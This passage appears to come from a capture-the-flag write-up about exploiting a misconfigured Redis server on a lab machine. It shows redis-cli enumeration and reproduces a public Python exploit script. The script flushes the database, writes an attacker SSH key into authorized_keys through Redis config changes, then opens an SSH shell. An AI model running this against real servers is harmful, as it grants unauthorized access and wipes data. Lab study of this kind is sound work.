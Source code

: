 ## Redis

The last service is the redis server. We use redis-cli in order to connect to
it and start enumerating using the autocompletion.

    :::text
    root@kalili:~# redis-cli -h 10.10.10.160
    10.10.10.160:6379> CONFIG GET dbfilename
    1) "dbfilename"
    2) "authorized_keys"
    10.10.10.160:6379> CONFIG GET dir
    1) "dir"
    2) "/var/lib/redis/.ssh"

A quick Google search for "redis ssh exploit" return this
[github repository](https://github.com/Avinash-acid/Redis-Server-Exploit).
We modify the script to include our `.ssh` folder:


    :::python
    #!/usr/bin/python
    #Author : Avinash Kumar Thapa aka -Acid
    #Twitter : https://twitter.com/m_avinash143

    import os
    import os.path
    from sys import argv
    from termcolor import colored


    script, ip_address, username = argv


    PATH='/usr/bin/redis-cli'
    PATH1='/usr/local/bin/redis-cli'

    def ssh_connection():
      shell = "ssh -i " + '$HOME/.ssh/id_rsa ' + username+"@"+ip_address
      os.system(shell)

    if os.path.isfile(PATH) or os.path.isfile(PATH1):
      try:
            print colored('\t*******************************************************************', "green")
            print colored('\t* [+] [Exploit] Exploiting misconfigured REDIS SERVER*' ,"green")
            print colored('\t* [+] AVINASH KUMAR THAPA aka "-Acid"                                ', "green")
        print colored('\t*******************************************************************', "green")
        print "\n"
        print colored("\t SSH Keys Need to be Generated", 'blue')
        os.system('ssh-keygen -t rsa -C \"acid_creative\"')
        print colored("\t Keys Generated Successfully", "blue")
        os.system("(echo '\r\n\'; cat $HOME/.ssh/id_rsa.pub; echo  \'\r\n\') > $HOME/.ssh/public_key.txt")
        cmd = "redis-cli -h " + ip_address + ' flushall'
        cmd1 = "redis-cli -h " + ip_address
        os.system(cmd)
        cmd2 = "cat $HOME/.ssh/public_key.txt | redis-cli -h " +  ip_address + ' -x set cracklist'
        os.system(cmd2)
        cmd3 = cmd1 + ' config set dbfilename "backup.db" '
                    cmd4 = cmd1 + ' config set dir "/var/lib/redis/.ssh/" '
        cmd5 = cmd1 + ' config set dbfilename "authorized_keys" '
        cmd6 = cmd1 + ' save'
        os.system(cmd3)
        os.system(cmd4)
        os.system(cmd5)
        os.system(cmd6)
        print colored("\tYou'll get shell in sometime..Thanks for your patience", "green")
        ssh_connection()
